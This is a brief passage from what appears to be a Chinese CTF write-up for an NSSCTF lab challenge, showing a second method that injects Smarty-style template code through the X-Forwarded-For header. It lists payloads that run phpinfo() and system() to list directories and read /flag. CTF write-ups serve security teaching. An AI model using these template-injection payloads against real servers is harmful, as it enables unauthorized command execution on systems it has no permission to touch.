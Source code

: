 ![image-20250808073040317](./NSSCTF-4.assets/image-20250808073040317.png)

### 方法二

测试可以执行php函数

```
X-Forwarded-For: {if phpinfo()}{/if}
```

```
{if system('ls')}{/if}
{if system('ls /')}{/if}
{if system('cat /flag')}{/if}
```

# [HNCTF 2022 Week1]easy_html
